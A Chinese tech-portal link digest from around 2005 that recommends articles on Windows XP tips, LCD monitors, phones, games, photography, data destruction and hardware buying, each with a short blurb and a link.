看看这些奇异的产品，你不得不佩服设计者的奇思妙想！

文章链接:http://tech.sina.com.cn/h/2005-09-23/0809727371.shtml

## WinXP使用中的六大禁忌

各位正在使用WinXP的朋友一定要小心本文谈到的“忌讳”，不注意的话，轻则会让你的系统不稳定或是麻烦多多，重则可能会让你的硬件损坏！

文章链接:http://diy.zol.com.cn/20/206858.html

## 史上10大“经典BOSS”排行

所谓BOSS就是指游戏里领袖级的怪物，这些终极怪物可要比他手下的小怪物厉害许多，无论从等级、体力、魔力，还是攻击力、防御力来看，这些BOSS都拥有很高的数值，想要打败他还真要下一番苦功呢，搞不好连自己的小命都没了……

文章链接:http://www.pcpop.com/doc/0/109/109714.shtml

## S60以外也精彩 S80/S90/UIQ手机全搜罗

作为目前最有实力与微软的Windows Mobile操作系统一争高下的Symbian，是由诺基亚、索尼爱立信、摩托罗拉、松下、西门子、三星、LG、富士、三洋、明基、Sendo等20个品牌联合控股的公司，已经几乎囊括了全球所有重量级的手机制造商。想更深入地了解Symbian吗？一起来瞧瞧吧。

文章链接:http://mobile.zol.com.cn/20/208635.html

## 日本数码攻略

很多玩电子产品的的朋友都应该知道日本的秋叶原这个地方吧？怎么？你还不知道？那你确实有点OUT了！不过没关系，通过这篇文章，你不但可以清楚的看到秋叶原，还能看到富士在日本的工厂，以及小编的“东京游记”！

文章链接:http://active.zol.com.cn/dcdv/s9500/

## 微软的IT水晶球

在奥兰多举行的2005年技术教育大会期间，微软向业界描画了软件巨人乃至整个IT业的新的地平线。想更加了解微软的你，该专题不容错过！

文章链接:http://www.zdnet.com.cn/news/feature/story/0,3800057982,39382316,00.htm

## 8月最受用户关注的十款高端LCD

ZDC(ZOL调研中心)统计出2005年8月最受用户关注的前三款3000元以上高端液晶显示器。19英寸LCD吞噬高端市场8ms成为基本指标！

文章链接:http://zdc.zol.com.cn/20/207575.html

## 两个极端，体验经典与失败

这十年之间，究竟出现了多少种软硬件产品，没人可以算得清，但是要是说到经典和失败之作，恐怕很多人都能说出一二来。比如对苹果情有独钟的人都会追捧iPod，开源的追随者则会不遗余力地举出Firefox比IE优秀的N种理由，虽然大家的标准都不同，但是这十年来最有影响力的10大经典产品和10大失败产品，却是有目共睹的。

文章链接:http://www.usus.com.cn/dispbbs.asp?boardid=9&id=154&star=1#443

## 卡片数码相机谁比谁更薄

薄，是一种风潮；薄是一种风格；薄，代表着科技的进步；薄，真真切切的减轻了我们携带的负担。现在的卡片式一改过去数码相机那种“厚重”的感觉，都尽量做的更轻更薄。

文章链接:http://dcdv.zol.com.cn/2005/0430/167956.shtml

## 手把手教你在SATA上装XP

现在买SATA硬盘的人渐渐多了，但是除了几款最新的南桥芯片外，其他南桥芯片接上SATA后在安装系统时都有一个毛病，那就是需要安装额外的驱动，很多初次在SATA上安装操作系统的朋友都发现系统无法认出SATA硬盘，其实那是因为没有安装驱动的缘故。那么额外的驱动要怎么安装呢？

文章链接:http://tech.sina.com.cn/h/2005-08-08/0924685826.shtml

## 恶搞任天堂“革命”手柄

不按常理出牌，向来是任天堂的“必杀技”，在老对手索尼和微软面前，任天堂一点也不示弱。传统的主机都是四四方方的，我偏不，非弄出个歪的给你看看！这不，“革命”主机不但样子古怪，手柄就更是异想天开了……

文章链接:http://www.pcpop.com/doc/0/108/108989_3.shtml

## 看看你有没有明星相

你想不想知道自己究竟是否适合向演艺圈发展？那就快登录这个网站测一下你的明星相吧！只需将你的照片上传，然后根据向导的提示依次点击右眼和左眼的位置，选择你的性别，最后点击Submit提交，这个网站就会从数据库中寻找与你的照片最匹配的明星照片并显示出来。不过要注意的是：照片必须是正脸(最好是大头照)并且能够看到双眼。

文章链接:http://www.play-analogia.com/cgi-bin/index/

## 世界上最小的网站

你不得不佩服老外的想象力，这个网站号称世界上最小的网站一点也不为过，只有中间那一小块小格子是网页的内容，没有任何广告，眼睛不好的朋友请不要尝试。

文章链接:http://www.guimp.com/

## 眼球的惊讶 你买不到的LCD显示器

电脑产品倾向于艺术品的方向发展，带给消费者的就是无限的惊喜。我们佩服的是设计师的创意，即使是被PS出来的，那么制作者也是很有想像力的一个人。

文章链接:http://www.enet.com.cn/article/2005/1008/A20051008459605.shtml

## 与众不同的“超级”书签

每个网虫在IE中都有自己的收藏夹，里面收藏的多是经常浏览的网址。不过你不要以为收藏夹只有这点功能。其实我们可以把经常使用的文件以file://的形式添加进收藏夹。当然除了这些功能外，我们还可以利用Javascript代码，制作出一些“超级”书签，通过它们，你可以快速查找到LOL、RTFM等英文缩写的含义，帮你快速翻译当前的网页，查看当前网站在你电脑中保存的Cookie等。

文章链接:http://ez.blogbus.com/logs/2005/10/1495672.html

## Word界面的变迁

Word是许多人每天必用的办公软件之一，可是你知道它最初的面貌以及马上要推出的Word 12版的样子吗？在这篇文章里，通过多个界面图片的展示，让我们看到了Word一步一步的发展。说实话，回头再看Word 1.0的界面，觉得它实在是太简陋了，连系统自带的写字板程序都不如，呵呵。

文章链接:http://www.cnbeta.com/modules.php?name=News&file=article&sid=8716

## 盛大只招三种人

相信不用介绍，大家也都对盛大公司有所耳闻。那么你是否了解陈天桥需要得到什么人才吗？他曾说：“盛大只需要三种人，分别是好人、明白人和能人”。你知道这三种人的含义吗？如果你想进盛大，那么本文不可以不看。

文章链接:http://tech.sina.com.cn/i/2005-09-29/0913731958.shtml

## 老虎、Bill、自己

偶然看到这样一个故事:John和Bill一起到山中探险，忽然他们发现一只老虎正深情地望着他们。John撒腿就要跑，Bill却迅速地从背包里拿出一双跑鞋穿在脚上，John看到后气急败坏地对Bill说:“你穿什么鞋也跑不过老虎的。”Bill同情地看了他一眼，回答说:“我干吗要和老虎比，我只要跑过你就够了。”大笑以后不免想起John的境遇是不是有点像中国的程序员呢？

文章链接:http://tech.163.com/05/0930/14/1UTGRK9P00091589.html

## 看十大硬件之“最”

决定写这样一篇关于“IT之最”的文章，是觉得最近发生很多值得我们记住的事情或产品，虽然这些事情我们不能用最高、最小、最大等等客观标尺来称其为“之最”，但我们却可以用诸如上面那段文字中的“最难”、“最愤怒”、“最糟糕”等等主观标尺来称呼，并且这些事情都有它独特的意义。

文章链接:http://www.pcpop.com/doc/0/111/111151.shtml

## 十招搞定“无法浏览网页”

大家上网浏览的时候，经常会碰到“无法浏览网页”的提示，当你心急火燎地在网上查找重要的数据时，这冷冰冰的页面无疑是一盆当头泼下的凉水。看看这篇文章，没准能找到网页浏览失败的原因及解决方法。

文章链接:http://news.onlinedown.net/info/16701-1.htm

## 经典双打游戏全搜罗

俗话说:“独乐乐不如众乐乐”，游戏也是一样的，回想当年FC大行其道，几乎每个孩...## 烤肉架DIY笔记本屏幕外壳
用惯台式机的朋友总想对自己的本本进行一定的改造来凸显出自己的个性，有换颜色的，有贴贴纸的，甚至有网友用烤肉架DIY笔记本屏幕外壳的，下面我们就一起来看一下……

文章链接:http://publish.it168.com/2005/1009/20051009007101.shtml

## 奸商教你如何对付奸商
随着电脑利润的不断下降，经营电脑配件的一些商家们经常耍些小聪明去获取更多的利润。不过，除了与你正面交锋的奸商(出售劣质、假货的商家)之外，还有一种另类的奸商群体，他们就是积极活跃在各类装机店中，不但从事着电脑维护及维修的工作，而且还充当着“炒货”的角色。本文作者就曾经是这样的一位维修人员，看看他曝的一些黑幕，对准备组装电脑的朋友也许会有些帮助。

文章链接:http://www.cfan.com.cn/pages/20050510/1599.htm

## 首款数码相机及首张数码照片
你知道世界上第一款数码相机是谁在何时发明的吗？你知道第一张数码照片拍摄的内容是什么吗？如果你对这些很好奇，那么不妨去看看这篇文章。

文章链接:http://dcdv.zol.com.cn/21/210520.html

## 行货价太高 购“本”买水货
笔记本市场一直是行货、水货混杂，其中大多数水货只比行货便宜一到两千元，这样的价格，与行货三年的售后服务相比就显得微不足道了。那么到底哪些水货笔记本的性价比才算最高呢？来看看这里介绍的五款笔记本电脑吧，差价最小的也有4000元之多，最高的达到11200元，真是不比不知道，一比吓一跳。

> 注：水货笔记本经常出现返修，以次充好等情况，购买时请多多留意。

文章链接:http://www.pcpop.com/doc/0/111/111065.shtml

## 80年代经典动画片回顾
某日，编辑部中忽然有人发消息：“大家谁还记得这是什么动画片吗？”众小编随着链接看去，只见一张图片正中站立一个威风凛凛的机器人，身边环绕三艘飞船，正是80年代动画片《星球大战》中的主角麦克伦1号……

文章链接:http://www.pcpop.com/doc/0/110/110420.shtml

## 节省话费就这BT八招
虽然通话费在不停地往降，不过还是经常有朋友抱怨每月的手机话费节节高升。那么如何节约手机话费呢？来看看这八招，看看你是不是也能想到呢？

文章链接:http://www.pcpop.com/doc/0/106/106808.shtml

## 强人DIY家庭影院全程图解
“开始准备买房子，我选户型首先看客厅能否兼用于家庭影院，主要是要求客厅呈长方形，保证幕布可以放在短边，还有就是主音箱所在位置没有门、通道等妨碍……”你买房的时候有考虑过是否要配置一个家庭影院系统吗？看看强人是怎么干的吧！

文章链接:http://www.pcpop.com/doc/0/101/101050.shtml

## 拒绝误导，带你看清MP3/4的真真假假
不少人对电脑知识了解得很少，对音频格式知之更少，这样就造成了很多人的消费误区，以为格式支持得越多的MP3就越好。殊不知，其实很多格式的实质是一样的。在这篇文章中，作者将带我们深入了解一下WMA/WMV/ASF这三种格式。

文章链接:http://www.imp3.net/article/article.php?articleid=5401

## 谁是世纪伟人
一个世纪，一百位世纪人物，前段时间，《时代周刊》评选出了世纪100位最具影响力的人物。其中爱因斯坦首当其冲，另外还有李小龙，有兴趣、英语又好的朋友一定不要错过，本文值得一看。

文章链接:http://www.time.com/time/time100/

## 移动通信史上的十件大事
人类历史上最早的通信手段和现在一样是“无线”的，如利用火光传递信息的烽火台，通常大家认为这是最早传递消息的方式了。事实上不是，在我国和非洲古代，击鼓传信是最早最方便的办法，非洲人用圆木特制的大鼓可传声至三四公里远，再通过“鼓声接力”和专门的“击鼓语言”，可在很短的时间内把消息准确地传到50公里以外的另一个部落，不会像前段时间湖南卫视的“悄悄话接力”那样传得完全变了样。

文章链接:http://www.pcpop.com/doc/0/103/103630.shtml

## 一网打尽网页在线即时翻译
Internet发源于英语国家，以英语为主导的外语网络资源占90%以上，语言已成为国人利用网络资源的主要障碍。为促进汉语网络资源的交流和华人对外语网络资源的利用，中外文在线即时翻译网站、各种翻译器、翻译软件应运而生；它们免费（有的需注册）提供网页、文本或邮件的常用外文与中文的互译或常用外文间的互译服务，为我们网络遨游提供了极大的便利。目前机器翻译虽不尽如人意，但毕竟有胜于无，充分利用在线翻译及网络翻译软件对扩大网络资源浏览、利用，学习、提高外语水平不无益处。

文章链接:http://www.enet.com.cn/article/2005/0831/A20050831449345.shtml

## 你是“食指一族”吗
这里所提供的FLASH游戏，是用手指将西瓜戳碎。实际就是看你的按键速度究竟有多快。当然，不同的按键速度有不同的奖励，得到“高桥名人冒险岛”的各种级别的图标文件（下载后是LZH压缩包，需用WINRAR解压，解压后是ICO文件）。

如果你想得到3个传说中的“高桥名人自家之图标”，就需要在10秒钟内按小键盘的“0”键120次以上！如果不相信的话，在你完成一次游戏之后游戏提供了单手点击130次视频下载。

文章链接：http://www.hudson.co.jp/hde/vol006/omake/tr16/index.html

## 游戏史上最重要的43款作品
注意挑的是有重要意义的游戏，而不是最好玩的，最成功的，最大销量的等等。那些诸如半条命、博得之门、辐射、暗黑、生化危机、WE、Sims、WOW等等虽然大卖或很优秀却对游戏发展没有什么里程碑式的贡献的游戏，当然不在入选之列了。

文章链接:http://games.sina.com.cn/t/n/2005-05-10/1345102214.shtml

## 到Photoshop总部探密
这是photoshopnews网站上Jeff Schewe访问Adobe公司拍摄的照片及游记。看照片就知道，Adobe公司果然是财大气粗的大个儿。另外，我们可以看到photoshop工程师也是非常的风趣。

文章链接:http://pic.yesky.com/pic/141/141048.shtml

## 征服未来:飞向太空的长征
神舟五号及神舟六号载人航天的成功，使得人们对中国的航天事业愈来愈加关注。在这篇文章中，以多篇精美的图片，顺序演示了宇宙飞船从发送到回送的全过程，非常形象生动。

文章链接:http://book.sina.com.cn/nzt/xiangtaikong/index.shtml

## 免费制作Google风格的Logo
Google的Logo是永远的经典，很多人都很喜欢这种简约而不简单的设计风格。如果你有一个自己的个人网站，是否也希望拥有这样一款别致的Logo？无需任何费用，只需在这个网站中输入你想要生成的Logo中包含的字母或数字，点击Make就行了，惟一的遗憾是:目前只支持英文字母和数字。

文章链接:http://www.logogle.com/

## PSP玩机攻略
PSP已经推出很久了，市场也出现了多个版本，什么1.0版、1.5版、2.0版。那么，该如何选择呢？是在实体店购买还是在网上购买呢？如何检查屏幕坏点呢？如何选择记忆棒呢？周边产品应该买哪些呢？本文将为你一一解答。

文章链接:http://mwb.cfan.com.cn/8

## 55个经典Windows开源软件
“开源软件”——现在炒得火热的一个词。Firefox的巨大下载量及Linux逐年扩大的服务器市场份额都说明了这一切。那么为什么大家都要选择它呢？原因很简单，首先它的代码是向所有人开放的，任何人都可以找出并修补它的安全漏洞；另一方面，开源软件的普及程度较微软的Windows来说，还差距很大，遭受攻击的几率也就相对少很多。

文中就介绍了多达55款的Windows开源软件，说不定从文章中你就会找到一款适合自己的软件。

最后补充一句，如果你对开源软件感兴趣，那么在http://www.opensource.org及http://www.sourceforge.net两个站点中，可以找到很多不错的开源小工具。

文章链接:http://mwb.cfan.com.cn/22

## 杀人游戏有几种玩法
我们一般玩的杀人游戏只有警、匪、平民及法官，如果只是这种简单的玩法，那实在是太无聊了，于是网上也慢慢流传出了多种新玩法，比如加入了匪民、医生的玩法，或是“无间道”玩法，真是五花八门，乐趣倍增。

文章链接:http://mwb.cfan.com.cn/23

## 看看你的Blog值多少钱
现在几乎人人都有自己的Blog了(甚至有些人还有好几个Blog，不知是不是和很多人喜欢同时用几个QQ号一样的心理)，你是不是在Blog里加入了有价值的文章？你的Blog有多少人在关注？Blog中的内容是否丰富？更加直白地说，如果把你的Blog卖了，会值多少钱？不知道吧，现在可以直接在下面的网址中输入你的Blog地址，立刻就能计算出它的价值！

文章链接:http://mwb.cfan.com.cn/10

## 笔记本电脑之“最”
在笔记本电脑已经像手机一样流行的年代，在这个喜欢用“最”来衡量物品是否达到极致的时代，我们将为大家评出最小的笔记本、最大的笔记本、最薄的笔记本、最轻的笔记本、最重的笔记本……我们的目的只有一个——让大家清楚了解到笔记本电脑中的“最”系列产品。

文章链接:http://mwb.cfan.com.cn/26

### 多款播放器实听感受
你听MP3的时候用什么媒体播放器呢？老牌的Winamp？简约的Foobar 2000？华丽的JetAudio？易用的千千静听？或是视频播放功能强大的Media Player Classic？在众多的媒体播放器中，又有哪一款最适合你呢？来看看高手是如何评价它们的吧。

文章链接:http://mwb.cfan.com.cn/25

### 使用笔记本的九大恶习
你知道吗？其实在使用笔记本的时候，我们或多或少的都会存在着一些不好的习惯，很有可能就是因为这些细节，会给我们的本本带来损害，造成意想不到的后果。不要等出了事才追悔莫及，防患于未然，就让我们一起来看看都有哪些应该改正的不良习惯。

文章链接:http://mwb.cfan.com.cn/13

### LCD显示器的“十万个为什么”
为什么两个品牌的液晶显示器显示同一幅画面，看起来就是不一样？液晶显示器能显示多少种颜色？响应时间是恒定的吗？为什么液晶显示器的刷新率普遍比较低？有必要从17寸液晶显示器升级到19寸液晶显示器吗？不在最佳分辨率下面，液晶显示器怎么显示？宽屏是否意味着能看到更多内容？这些常见的LCD显示器问题在本文中你都可以找到答案。

文章链接:http://mwb.cfan.com.cn/24

### 六招提速Windows XP
没有人会觉得自己的系统快，同样也没有用得时间越长，反而速度越快的系统。面对这样的矛盾，我们应如何解决？本文是作者根据自己的经验，总结出的六条非常实用提速方法，非常实用。而且在介绍每种方法具体操作的同时，还介绍了其加速原理。

文章链接:http://mwb.cfan.com.cn/21

### 被卸载次数最多的软件
有些软件，即使很多年没有升级，仍有很多用户称之为经典；而另一些软件，即使升级再频繁，甚至强迫用户安装，可还是马上被人卸载。来看看网友的评选，究竟哪些软件是用户们最不愿意安装使用的，虽然参加票选的网友并不一定能代表所有用户的意见，但被评选上的厂商也确实应该敲敲警钟了，升级是为了让软件更好用，而不是为了让用户更难卸载。

文章链接:http://mwb.cfan.com.cn/11

### 营造良好听音环境
多声道音箱，自己买了好久了。后来大扫除，偶然间交换了音箱的位置，发现效果彻底变样了，可见音箱的摆放相当的重要……

文章链接:http://mwb.cfan.com.cn/16

### 最值得购买的水货智能手机
智能手机(SmartPhone)在国内还远远没有做到普及的程度，非常重要的原因之一就是售价过高。而市场中出现的大量水货智能手机恰好满足了我们这些口袋并不宽裕的智能手机爱好者的需求。但是水货手机没有质保一直是让很多人迟迟不能出手的理由，所以选择一款品质优秀的产品就显得非常重要，究竟便宜多少？功能是否缩水？配件是否齐全并保证原装？来看看这17款最值得购买的水货智能手机吧！

文章链接:http://mwb.cfan.com.cn/9

### 恶搞！穿上黄金圣衣的硬件
去中关村转转，在一家挨一家的装机摊位前，你可以看到很多包装显眼却落俗套的硬件包装XXX黄金版、XXX钻石版、XXX豪华版。到底是不是真的如黄金般珍贵？这篇文章就给大家介绍十二款标榜黄金的硬件，看看它们是不是名副其实。文章中以圣斗士中

十二个黄金圣斗士来作映衬，值得一看！

文章链接:http://mwb.cfan.com.cn/12

### 视频iPod发布的十大恶果
2005年9月8日，美国苹果公司在旧金山召开新闻发布会，正式宣布了iPod nano的诞生。时隔一个月零五天后，苹果再次召开新闻发布会。iPod 5来了，带来了不同于nano的巨大影响。这些影响力并不都表现在它的外观和售价上，更多的影响是针对市场格局、技术方向的，经过分析，下面将归纳出九个有说服力的影响……

文章链接:http://mwb.cfan.com.cn/19

### 10分钟实战超频
关于如何超频是一个老生常谈的话题了，早在奔腾133的时候人们就已经开始对CPU、内存等设备进行超频了。超频是一种兴趣，也是一种感受，通过超频玩家们可以体验超频带来的那一点小刺激。其实超频并不像网友想象的那样高深，其实你只要具备2个要点那么你就是高手。

文章链接:http://mwb.cfan.com.cn/20

### DVD盘片生产商标志大全
当我们把空白光盘放入刻录机的时候，机器很快就会告诉你这张光盘标称的刻录速度。其实如果你敢于“冒险”，甚至还可以随意修改这些速度。那么怎样能做到这一点，原理又是什么呢？本篇文章将会给你答案，并且还有一份生产商标志的全家随时查阅。

文章链接:http://mwb.cfan.com.cn/17

### 百花争艳斗芳菲
郑乃珖，号壁寿翁，是我国知名的花鸟画家，他的画秀劲多姿、生气勃勃、格调新颖，深受人们的喜爱。本帖收取了郑乃珖先生花卉作品近百幅，是名副其实的《百花画集》，大家可以浏览一下，一饱眼福。

文章链接:http://mwb.cfan.com.cn/35

### 硬盘开盘维修内幕全程大曝光
“硬盘有价，数据无价”这句深入人心的口号套用在数据恢复领域便是巨大的市场潜力。平心而论，国内的数据恢复市场刚刚起步，普通用户对数据恢复并不怎么了解，即使是众多的电脑高手也只是停留在软件修复的层次上，真正的复杂的数据恢复是涉及较高技术含量的硬件操作的，而数据恢复行业一直以来都是披着一层神秘的面纱，无尘操作环境也让普通用户敬而远之……

文章链接:http://mwb.cfan.com.cn/14

### Ghost鲜为人知的参数
用过DOS的人对命令参数并不陌生，DOS下的很多程序都有参数，尽管是枯燥的英文字母，但功能却非常强大。Ghost也有DOS版本，同样可以使用多种参数，让我们能更好地控制Ghost。

文章链接:http://mwb.cfan.com.cn/37

### 腾讯QQ七年大事记
据说，腾讯QQ刚开发出来的时候，马化腾担心用户太少会得不到别人的承认，所以QQ起始号一下子就从10000开始，好留下有很多人在用QQ这样的假象。当然这只是一个趣闻，除了马化腾之外，其他人已无法考证其真伪了。与现在的成千上万的QQ注册用户相比，10000真算得上是九牛一毛，沧海一粟了。本文记录了腾讯QQ七年来所经历的一些大的变革，我们从它的发展当中没能获得一些启示呢。

文章链接:http://mwb.cfan.com.cn/34

### 惊爆DC奸商行骗全过程
俗话说“道高一尺魔高一丈”，虽然现在消费者的水平不断的提高，但是面对部分奸商越来越高的行骗手段，经常是防不胜

防。而JS这个字样也越来越多的出现在各大论坛和网站的文章里……

文章链接:http://mwb.cfan.com.cn/15

### Vista细节大图欣赏
千呼万唤始出来，犹抱琵琶半遮面。微软下一代操作系统Windows Vista一再跳票，不仅引来了一片抱怨声，也勾起了许多人的好奇，一旦有测试版出来，总有人想方设法搞到界面图来一睹为快。这个帖子中收录了Vista 5231高分辨率界面图几十张，从中可以一窥这款新一代操作系统的风采。

文章链接:http://mwb.cfan.com.cn/36

### Windows变慢原因分析
谁都希望计算机一开机就可以立即进入Windows而不用等待，或是系统在使用时不会越来越慢。但由于种种原因，常常使这些愿望不能实现，甚至一开机就死机，而用着用着就越来越慢的情况也经常发生。其实有些时候Windows启动速度缓慢并不是它本身的问题，而是一些设备或软件造成的。本文就是从软件、硬件和病毒三大方面来分析系统速度变慢的原因，并且提供了有针对性的加速技巧。

文章链接:http://mwb.cfan.com.cn/38

### 微距摄影的概念与方法
微距摄影是摄影活动中比较大的一类，可以说，绝大多数从事摄影活动的人士或多少都接触过微距摄影。微距摄影并不神秘，但有些摄影爱好者会对这类摄影方式产生一种不可捉摸的感觉，这可能是因为从事了普通摄影之后，以为微距摄影是一种另类的方式。实际上微距摄影是普通摄影的延伸，它的工作机理与普通摄影是一样的，都要遵守光学的基本规律。不过，微距摄影也有其特殊性，还涉及到诸多的附件，如何灵活地使用这些附件，是本文的出发点。

文章链接:http://www.cfan.com.cn/39

### 2006年主流配件预告篇
转眼之间，2005年又接近了尾声。回顾这一年来，我们发现2005年在IT界的历史上也是非常有意义的一年。2005年里，Intel和AMD都推出了自己的双核心桌面处理器产品。PCI-E总线构架和64位处理器技术也已经完全普及开来，低价的64位赛扬、闪龙处理器和主板产品犹如雨后春笋般袭来……那么2006年我们将迎来哪些新的产品呢？

文章链接:http://mwb.cfan.com.cn/18

### 当摄影遭遇绘画
当绘画作为一种直观记录手段的功用被快捷精确的摄影逐步取代之时，它所剩下的表现形式和美学价值反而逐步明晰起来。早期的摄影师在发挥创造力时，因为没有现成的传统可以借鉴，自然而然地就把目光投向绘画，长此以往，一种以追求形式审美为目的的“画意摄影”开始逐渐成型。本文所介绍的这些人，你可以称他们是摄影师，但或许“图像艺术家”这个称谓更适合他们，因为在他们看来，摄影没有太多更神圣的意义，仅仅只是一种获取创作素材的手段而已。

文章链接:http://mwb.cfan.com.cn/44

### 世界从10亿光年到0.1飞米
当我们看到十亿光年以外的星星时，映入眼帘的那束星光已经在茫茫宇宙间飞奔了十亿年。换句话说，我们现在看到的仅仅是它十亿年前的样子！现在的它究竟如何我们只有再等待十亿年才能看到……在这篇帖子中，通过几十张图片，展示了从十亿光年之外的星空、银河系、太阳系、地球、人一直到毫米、微米、纳米……飞米（10的负15次方米）等精彩的图像，让人不得不惊叹于宇宙万物的奥妙无穷。

文章链接:http://mwb.cfan.com.cn/40## ADSL 知识合集

现在，许多人上网使用的都是ADSL宽带形式。那么，大家对ADSL的了解有多少呢？你知道512K ADSL是什么意思？为什么ADSL的速度随着连接时间的延长而逐渐降低？ADSL虚拟拨号的各种出错代码到底意味着什么？又该如何解决呢？……有关ADSL的各种知识和问题，在这里也许能找到你想要的答案。

文章链接:http://mwb.cfan.com.cn/42

## 人一生要读的 60 本书

一个人在其一生中，制订一个周详、完善、切实可行的读书计划，可以完善内在知识结构，全面提升人文素质，为迈向辉煌成功的人生打下坚实的基础。这个网页是一本名为《人一生要读的60本书》的书的宣传网页，我们倒不一定要买这本书，通过该网页上的目录及内容简介，也同样能为我们的读书计划提供一个不错的参考。

文章链接:http://mwb.cfan.com.cn/41

## 音乐、耳机和俺

玩耳机的发烧友很多，但有几个是玩低端的呢？有几个是拿感受，而不是参数来说话的呢？我们只选对的，不选贵的，我们只选好的，不选理论参数高的。你也喜欢玩耳机？那么本文是非常值得你一看的，相信看过它后，你也会点头称赞的。

文章链接:http://mwb.cfan.com.cn/50

## 简历封面应如何制作

现在就业的压力越来越大，如何能让你的简历在众多简历中脱颖而出呢？当然封面是最重要的一环，一个好的封面可以让主管人员更注意你的简历，给他们更深的印象。来看看这些漂亮的简历封面吧，也许能给你一点启发。

文章链接:http://mwb.cfan.com.cn/49

## 全面解读显卡基本常识

就目前而言，显卡分为两大类，一类是我们熟悉的家用显卡，即游戏卡；另一类则是用于专业工程设计、影视动画等领域，即工作站图形加速卡（专业卡）。相比前者而言大多数消费者对专业卡稍感陌生，为此在购买时也存在很多误区，所以接下来我们将针对二者的区别进行简要分析。

文章链接:http://mwb.cfan.com.cn/55

## 怎样鉴别音质

所谓声音的质量，是指经传输、处理后音频信号的保真度。目前，业界公认的声音质量标准分为4级，即数字激光唱盘CD-DA质量，其信号带宽为10Hz~20kHz；调频广播FM质量，其信号带宽为20Hz~15kHz；调幅广播AM质量，其信号带宽为50Hz~7kHz；电话的话音质量，其信号带宽为200Hz~3400Hz。可见，数字激光唱盘的声音质量最高，电话的话音质量最低。除了频率范围外，人们往往还用其他方法和指标来进一步描述不同用途的音质标准。

文章链接:http://mwb.cfan.com.cn/60

## 诺基亚 QD 格机全过程

我的QD终于被我格了！起因：5天前，我花了470元为心爱的QD添了一张1G的MMC卡。前天，胡乱扔了些MP3歌曲进去，大概七八十首吧，启动MP3 GO发现速度严重变慢，从“确定”到完全显示界面需要8秒钟时间，这可是一个漫长的过程啊！用读卡器测试了一下MMC卡的读写速度，读6.2M/S，写2.1M/S，并不慢啊！换MP3 player，速度快了，原来是播放器的问题。但心里总还是不舒服，所以……

文章链接:http://mwb.cfan.com.cn/59

## 高手都是这样清除系统垃圾的

电脑使用的时间一长，就会产生各种各样的垃圾文件，如果不及时清理的话，会给系统造成很大的负担，从而影响系统运行的速度。在这篇文章里，分析了多种垃圾文件产生的原因，并给出了清理的方法，大家可以借鉴一下，一定会有很大的帮助。

文章链接:http://mwb.cfan.com.cn/43

## “牛”人是这样用 Photoshop 的

鼠标绘画若想战胜传统手绘，必须了解敌我的长处和弱点。传统手绘的主帅是画笔，它的特点是运用自如、游刃有余。涂、抹、擦则是它的副将。电脑“画笔”则动作迟缓、笨手笨脚，鼠标手绘时如用它当主帅，那就更吃力了。不过鼠标手绘有许多传统手绘所没有的战将，让多边形套索工具担任先锋官，减淡和加深工具挂主帅，涂抹工具断后。不要小看这几名不起眼的小将，只要你指挥有方，阵容自然会变得越来越强大，所向披靡，战无不胜。

文章链接:http://mwb.cfan.com.cn/45

## 玩转双屏 LCD

可能很多消费者在今天已经购买了液晶显示器，相信LCD轻薄、环保的特性，也让您在使用过程中倍感舒适。但不知道您是否考虑过一个问题，将CRT升级为LCD是大势所趋，那么现在已经用上了LCD，下一步又该如何去升级呢？仅仅是简单地以尺寸作为标杆吗？在我们看来，双屏幕的应用将更具优势。

文章链接:http://mwb.cfan.com.cn/52

## 年度最酷超炫外设全搜罗

对MM来说漂亮才是最好的，微软、罗技虽然有超强的性能与做工，无奈MM们并不买账，在MM心目中可爱、漂亮的东西才是她们最想要的。今天笔者就把世界上所有漂亮、可爱的外设产品全都摆出来，让MM看个够……

文章链接:http://mwb.cfan.com.cn/56

## 字符“奥运会”

上过网的人基本都看过闪客小小制作的小小系列，简单的黑色小人曾经让很多人痴迷。这个论坛帖子里用各种字符组成的小人酷似小小系列的风格，用字符组成的小人有的在打篮球、有的在自由搏击（貌似《街头霸王》的肉搏 -_-）、有的在表演跳水，大家可以试着自己来用字符组成其他项目试试。

文章链接:http://mwb.cfan.com.cn/61

## IBM 水货商自曝内幕

其实，大家对于水货以及配件有疑问，是很正常的事情，因为事实上确实存在有人送假配件，或有人扣掉原装包等情况。在保修上也存在着不为人知的一面。

我自己是做水货的，因为是自己干不是做代理，所以知道的很多，其实做水货虽然有这样那样的问题，但是如果大家行得正，说明白了也没什么。下面先说几个常见的问题。

文章链接:http://mwb.cfan.com.cn/58

## 摄影者必看: 器材发烧路

这篇名为《漫漫器材发烧路》的文章，最早于2000年11月5日出现在国内著名的专业摄影论坛《色影无忌》上。作者Viewfinder（英文取景器的意思，名字就取得这么摄影）将一个摄影入门者走向摄影器材发烧友的历程描写得淋漓尽致，以至于无数影友都高呼：“这不就是写的我嘛！”这篇文章从此成为了色影无忌的标志文章。

文章链接:http://mwb.cfan.com.cn/51

## 谁在用 GNU/Linux 工作

在国内某著名的Linux技术论坛中出现了一个标题为“完全用GNU/Linux工作，摈弃Windows”的帖子，立时引起轩然大波，微软阵营和GNU阵营的口舌之争已经在所难免，但双方高人互相辩论之精彩程度却着实让大堆跟帖者直呼过瘾。无论你是站在何种立场，来分析一下双方的观点都是一件有意思的事情。

文章链接:http://mwb.cfan.com.cn/64

## 绝对隐私！敏感数据销毁计划

每个人的电脑上都有不希望被别人看到的东西，写给女友的情书、公司的绝密档案、灰色收入表……如果你的电脑即将转手，那么是否也打算把这些敏感的数据也同时转手呢？当然不！但很多人选择的方法就是简单地删除掉硬盘中的文件，这样做实在是“防君子不防小人”。一个电脑新手也可以通过EasyRecovery等专用数据恢复软件把硬盘中被删除掉的内容找回来，更别提专业的数据恢复专家了。所以要彻底销毁数据，你还得学会这些招术！

文章链接:http://mwb.cfan.com.cn/63

## 透视八大笔记本杀手绝技

看到本文的题目，你可能会觉得有些吃惊，这篇文章并不是教您如何结束生命，只是告诉您应该如何毁掉自己的本本，当然，如何领会本文的真正意思，那就看您自己的了。

文章链接:http://mwb.cfan.com.cn/57

## 透视和消除电脑噪音根源

你的电脑安静吗？如果不能回答这个问题，就请你在晚上尝试关掉音乐、停止游戏，安静地坐一会儿，看看你是不是也会被轰鸣的风扇声、吱吱的硬盘的寻道声、光驱的马达声搞得烦躁不安，厌烦不已。接连而来的噪音已经影响到PC用户的正常使用，而如何彻底了解并消除噪音才是首先要考虑的问题！

文章链接:http://mwb.cfan.com.cn/53

## 你的笔记本电脑安全吗

